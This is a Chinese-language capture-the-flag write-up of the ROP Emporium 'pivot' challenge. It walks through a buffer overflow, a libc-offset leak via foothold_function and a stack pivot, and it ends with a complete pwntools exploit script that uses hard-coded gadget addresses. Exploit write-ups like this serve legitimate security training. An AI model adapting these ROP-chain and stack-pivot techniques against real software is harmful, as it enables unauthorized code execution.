 ```yaml
---
title: ROP Emporium の pivot
date: 2020-06-11 15:14:00
categories:
- WriteUPs
- ROP Emporium
tags:
- PWN
- ROP
- Stack
---
```

## Introduction

[ROP Emporium](https://ropemporium.com)训练6：pivot的解析。

<!-- more -->

## pivot32

### Step 1

程序正常运行截图：

![](/img/pivot/pivot1.png)

发现可能存在内存地址泄露，加上题目给了libc.so文件，猜测可能需要用到ret2libc和延迟绑定技术,详细内容可了解[ret2libc && Lazy Binding](https://coldwave96.github.io/2020/05/19/LazyBinding/)。

checksec：

![](/img/pivot/pivot2.png)

### Step 2

pwnme函数中fgets函数存在溢出漏洞，offset为0x28：

![](/img/pivot/pivot3.png)

程序运行时提示我们call ret2win() from libpivot.so，看下这个函数是什么内容：

![](/img/pivot/pivot4.png)

那么直接调用这个函数就行了。但是这个函数在libc.so中，需要通过ret2libc实现函数的调用。首先要选择一个函数同时在pivot程序和libc.so中，泄露其真实地址后通过计算得到libc.so加载的基址，加上ret2win函数在libc.so中的offset，直接定位ret2win函数在内存中的真实地址。

通过比对发现，我们只能选择foothold_function函数来获取libc.so的基址：

![](/img/pivot/pivot5.png)

![](/img/pivot/pivot6.png)

这时我们会发现pwnme函数中fgets只有0x3a Bytes缓冲区的长度，并不足以存放我们的shellcode，所以需要另找一个位置存放shellcode。

![](/img/pivot/pivot7.png)

好在程序给了我们一块0x100的堆空间，且具体的内存地址也告诉我们，但是我们需要考虑如何把shellcode写到给的地址上去。

![](/img/pivot/pivot8.png)

通过上面的几个函数就可以实现将shellcode写到指定的内存地址。

到此，思路就比较清楚了：第一步先将shellcode写到指定内存地址，第二步利用溢出漏洞使程序跳转到shellcode执行。

第一步中通过sub_80488c4函数写入，通过sub_80488c0函数控制eax寄存器。为了将栈转移到我们需要的地址，需要通过sub_80488c2控制esp寄存器。在找到libc.so的加载基址后，需要通过sub_80488c7函数将基址加上offset找到ret2win函数在内存中的真实地址。所以我们还需要找到控制ebx寄存器的指令：

![](/img/pivot/pivot9.png)

第二步中我们还需要一条指令在覆盖fgets函数返回地址后使得程序能够跳转到我们设定的内存地址执行shellcode，由于我们通过sub_80488c4函数将地址写到了eax寄存器中，所以我们需要控制程序跳转的eax寄存器指向的地址：

![](/img/pivot/pivot10.png)

这样一切准备工作就完成了。

### Step 3

下面就是EXP的编写：

```Python
* # coding:utf-8
* from pwn import *
* 
* sh = process('./pivot32')
* elf = ELF('./pivot32')
* 
* libc = ELF('./libpivot32.so')
* 
* foothold_function_got = elf.got['foothold_function']
* foothold_function_plt = elf.plt['foothold_function']
* foothold_function_libc = libc.symbols['foothold_function']
* ret2win_libc = libc.symbols['ret2win']
* 
* sh.recvuntil('pivot: ')
* shellcode_addr = int(sh.recv(10), 16)
* 
* pop_eax_addr = 0x80488c0
* xchg_addr = 0x080488c2
* mov_addr = 0x080488c4
* add_addr = 0x080488c7
* 
* pop_ebx_addr = 0x08048571
* jmp_addr = 0x08048a5f
* 
* payload1 = p32(foothold_function_plt) # 调用foothold_function函数，调用时会将foothold_function函数的实际地址写入到GOT表中
* payload1 += p32(pop_eax_addr) + p32(foothold_function_got)# 将foothold_function函数的GOT地址写入eax寄存器
* payload1 += p32(mov_addr) # 将foothold_function函数的GOT地址指向的地址放入eax寄存器，即foothold_function函数在内存中的真实地址
* payload1 += p32(pop_ebx_addr) + p32(ret2win_libc - foothold_function_libc) # 将ret2win函数与foothold_function函数在libc.so文件中的相对偏移放入ebx
* payload1 += p32(add_addr) # foothold_function函数真实地址加上ret2win相对于foothold_function函数的offset即得ret2win函数在内存中的实际地址
* payload1 += p32(jmp_addr) # 使程序跳转到eax中的地址，即泄露的堆空间的入口位置
* 
* sh.recvuntil('>')
* sh.sendline(payload1)
* 
* payload2 = 'a' * (0x28 + 0x4) # padding
* payload2 += p32(pop_eax_addr) + p32(shellcode_addr) # 堆空间的地址放入eax寄存器
* payload2 += p32(xchg_addr) # 交换eax和esp的值，也就是说程序分配的对空间就被当成栈，交换eax和esp的值，也就是说程序分配的堆空间就被当成栈，ret就会返回到栈顶去执行我们精心设计好的shellcode
* 
* sh.recvuntil('smash')
* sh.sendline(payload2)
* 
* sh.interactive()
* sh.close()
```

* 脚本运行结果图：

![](/img/pivot/pivot11.png)

## pivot

64位程序和32位思路一模一样，EXP也基本相同，有兴趣的可以自行尝试。
